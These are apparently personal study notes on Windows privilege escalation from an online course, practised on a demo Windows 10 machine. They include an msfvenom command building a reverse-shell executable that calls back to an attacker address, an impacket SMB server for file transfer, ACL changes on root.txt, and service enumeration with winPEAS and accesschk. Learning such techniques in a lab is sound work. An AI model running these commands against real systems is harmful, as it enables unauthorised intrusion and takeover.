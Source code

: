 Powershell SMB enable

Checking file and granting permission
```cmd
ICACLS root.txt 
ICACLS root.txt /grant %username%:F
```

Made this from the Privelege Escalation course from Tib3rius ⁣

Udemy link of his course:https://www.udemy.com/course/windows-privilege-escalation/

This was for a demo windows 10 machine, I used for practise.

> Enable-WindowsOptionalFeature -Online -FeatureName "SMB1Protocol-Client" -All

```zsh
python3 /usr/share/doc/python3-impacket/examples/smbserver.py tools .

```
Generating reverse shell using msfvenom

```zsh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.158.146 LPORT=53 -f exe -o reverse.exe
```

Permissions to access a certain resource in Windows are
controlled by the access control list (ACL) for that resource.
Each ACL is made up of zero or more access control entries
(ACEs).
Each ACE defines the relationship between a principal (e.g. a
user, group) and a certain access right.

To check your privilege on a system 
```cmd
whoami /priv
```
## Services Privilege Escalation

```cmd
.\winPEASany.exe quiet servicesinfo

```

```cmd
sc qc  daclsvc

```
Using accesschk.exe

- -u Suppress errors
- -v Verbose 
- -c Windows service
- -d Only process directories or top-level keys
- -w Show objects which have right access 
- -q Omit banner


```cmd
.\accesschk.exe /accepteula -uwcqv user daclsvc

```
